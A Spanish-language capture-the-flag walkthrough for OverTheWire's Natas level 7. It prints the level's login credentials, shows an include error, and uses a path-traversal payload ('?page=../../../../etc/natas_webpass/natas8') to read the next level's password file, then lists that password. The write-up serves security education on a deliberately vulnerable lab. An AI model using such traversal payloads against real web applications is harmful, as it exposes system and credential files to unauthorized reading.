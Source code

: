```yaml
---
title: Natas-07
published: true
---
```


```
Url del reto: http://natas7.natas.labs.overthewire.org/index.php
login:natas7
 pass:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

En este reto, si miramos el codigo fuente html nos da la siguiente pista

```html

<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>

```

Como podemos ver, nos dice donde esta la pass del siguiente nivel natas8
Si forzamos a que nos muestre un error como por ejemplo:

```

http://natas7.natas.labs.overthewire.org/index.php?page=popkdposkpoadopasd

```

```html

<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
<br />
<b>Warning</b>:  include(popkdposkpoadopasd): failed to open stream: No such file or directory in <b>/var/www/natas/natas7/index.php</b> on line <b>21</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'popkdposkpoadopasd' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in <b>/var/www/natas/natas7/index.php</b> on line <b>21</b><br />

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>

```

Como podemos observar, nos dice que no existe dicho fichero o directorio, viendo que las rutas que esta usando son las del sistema operativo linux, podriamos intentar probar ficheros que existan mediante una ruta relativa

```

http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8

```

```html

<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>


```

```    
natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

[Volver al archivo](archive)
